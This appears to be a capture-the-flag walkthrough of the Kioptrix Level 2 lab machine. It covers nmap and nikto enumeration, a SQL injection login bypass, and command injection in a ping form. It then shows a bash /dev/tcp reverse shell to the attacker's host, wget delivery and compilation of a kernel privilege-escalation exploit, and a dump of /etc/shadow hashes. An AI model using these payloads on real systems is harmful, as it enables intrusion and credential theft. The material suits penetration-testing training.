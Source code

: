 # KIOPTRIX Level 2 Walkthrough

## Target determining
```
sudo netdiscover
```
Target: 172.10.0.201

Atacker: 172.10.0.200

## Enumeration
### Nmap
```
nmap -T4 -p- -sSCV 172.10.0.201
```
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-15 09:24 +07
Nmap scan report for adsl-172-10-0-201.dsl.sndg02.sbcglobal.net (172.10.0.201)
Host is up (0.00033s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
|_ssl-date: 2022-08-14T23:15:32+00:00; -3h09m38s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
1016/tcp open  status     1 (RPC #100024)
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 10:6F:D9:DE:E7:3B (Unknown)

Host script results:
|_clock-skew: -3h09m38s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.77 seconds
```
Browse the target website:

![](img/web_interface.png)

### Nikto
```
nikto -host http://172.10.0.201
```
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.10.0.201
+ Target Hostname:    172.10.0.201
+ Target Port:        80
+ Start Time:         2022-08-15 09:33:54 (GMT7)
---------------------------------------------------------------------------
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type.
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.46). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Uncommon header 'tcn' found, with contents: choice
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 357810, size: 4872, mtime: Sun Mar 30 01:41:04 1980
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8917 requests: 1 error(s) and 16 item(s) reported on remote host
+ End Time:           2022-08-15 09:34:33 (GMT7) (39 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
## Exploit
Try SQLi to bypass the login page, use  payload **admin' or '1'='1**. The result is as expected:

![](img/login_successful.png)

Type local address *127.0.0.1*, the website return result of ```ping 127.0.0.1``` command:

![](img/ping_successful.png)

Try exploiting command injection in this entry, using "&&" to excute multiple commands. With **127.0.0.1 && id** payload, the result also is expected:

![](img/command_excute_successful.png)

To excute command easily, we need to create a shell to rce this machine. On attacker machine, listen to port 4444:
```
nc -lnvp 4444
```
On victim site, use payload **127.0.0.1; bash -i >& /dev/tcp/172.10.0.200/4444 0>&1** to create a shell in attacker machine:

![](img/shell_create_successfull.png)

### Privilege Escalation

Get information about victim machine OS:

```
uname -a
```
```
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
```

```
lsb_release -a
```
```
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
```

Search "centos 4.5" keyword in exploit db to get privilege escalation script:

![](img/exploit_db.png)

Write script content to file named "exp.c" and create server to upload it to victim machine:

```
vi exp.c
python -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On victim shell created before, change directory to tmp and get exploit script:

```
cd /tmp
wget 172.10.0.200:8080/exp.c

--19:28:47--  http://172.10.0.200:8080/exp.c
           => `exp.c'
Connecting to 172.10.0.200:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,496 (2.4K) [text/plain]

    0K ..                                                    100%  183.11 MB/s

19:28:47 (183.11 MB/s) - `exp.c' saved [2496/2496]
```

Execute this script and run it:

```
gcc exp.c -o exp
./exp

sh: no job control in this shell
sh-3.00#
```

Privilege escalation successfully:

```
sh-3.00# whoami
root

sh-3.00# cat /etc/shadow
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
bin:*:14525:0:99999:7:::
daemon:*:14525:0:99999:7:::
adm:*:14525:0:99999:7:::
lp:*:14525:0:99999:7:::
sync:*:14525:0:99999:7:::
shutdown:*:14525:0:99999:7:::
halt:*:14525:0:99999:7:::
mail:*:14525:0:99999:7:::
news:*:14525:0:99999:7:::
uucp:*:14525:0:99999:7:::
operator:*:14525:0:99999:7:::
games:*:14525:0:99999:7:::
gopher:*:14525:0:99999:7:::
ftp:*:14525:0:99999:7:::
nobody:*:14525:0:99999:7:::
dbus:!!:14525:0:99999:7:::
vcsa:!!:14525:0:99999:7:::
rpm:!!:14525:0:99999:7:::
haldaemon:!!:14525:0:99999:7:::
netdump:!!:14525:0:99999:7:::
nscd:!!:14525:0:99999:7:::
sshd:!!:14525:0:99999:7:::
rpc:!!:14525:0:99999:7:::
mailnull:!!:14525:0:99999:7:::
smmsp:!!:14525:0:99999:7:::
rpcuser:!!:14525:0:99999:7:::
nfsnobody:!!:14525:0:99999:7:::
pcap:!!:14525:0:99999:7:::
apache:!!:14525:0:99999:7:::
squid:!!:14525:0:99999:7:::
webalizer:!!:14525:0:99999:7:::
xfs:!!:14525:0:99999:7:::
ntp:!!:14525:0:99999:7:::
pegasus:!!:14525:0:99999:7:::
mysql:!!:14525::::::
john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::
harold:$1$7d.sVxgm$3MYWsHDv0F/LP.mjL9lp/1:14529:0:99999:7:::
```

